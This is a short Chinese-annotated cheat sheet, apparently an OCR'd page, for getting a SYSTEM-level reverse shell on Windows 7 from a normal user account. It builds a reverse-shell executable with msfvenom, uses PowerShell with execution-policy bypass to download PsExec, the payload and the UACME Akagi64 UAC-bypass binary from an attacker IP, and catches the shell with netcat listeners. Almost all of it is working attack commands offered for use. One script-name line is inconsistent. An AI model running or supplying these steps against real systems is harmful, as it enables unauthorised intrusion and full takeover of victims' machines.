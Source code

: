 msfvenom –p windows/shell_reverse_tcp LHOST=192.168.56.102 –f exe > danger.exe

# 显示账户配置
net user <login>

# Kali 上下载 psexec

https://technet.microsoft.com/en-us/sysinternals/bb897553.aspx

# 使用 powershell 脚本上传 psexec.exe 到目标机器
echo $client = New-Object System.Net.WebClient > script.ps1
echo $targetlocation = "http://192.168.56.102/PsExec.exe" >> script.ps1
echo $client.DownloadFile($targetlocation,"psexec.exe") >> script.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script.ps1

# 使用 powershell 脚本上传 danger.exe 到目标机器
echo $client = New-Object System.Net.WebClient > script2.ps1
echo $targetlocation = "http://192.168.56.102/danger.exe" >> script2.ps1
echo $client.DownloadFile($targetlocation,"danger.exe") >> script2.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script2.ps1

# 使用预编译的二进制文件绕过 UAC:

https://github.com/hfiref0x/UACME

# 使用 powershell 脚本上传 https://github.com/hfiref0x/UACME/blob/master/Compiled/Akagi64.exe 到目标机器
echo $client = New-Object System.Net.WebClient > script2.ps1
echo $targetlocation = "http://192.168.56.102/Akagi64.exe" >> script3.ps1
echo $client.DownloadFile($targetlocation,"Akagi64.exe") >> script3.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script3.ps1

# 在 Kali 上创建监听
nc -lvp 4444

# 以系统权限使用 Akagi64 运行 danger.exe 
Akagi64.exe 1 C:\Users\User\Desktop\danger.exe

# 在 Kali 上创建监听
nc -lvp 4444

# 下一步就会反弹给我们一个提过权的 shell
# 以系统权限使用 PsExec 运行 danger.exe 
psexec.exe –i –d –accepteula –s danger.exe
以普通用户身份在 Win7 上反弹具有系统权限的 Shell
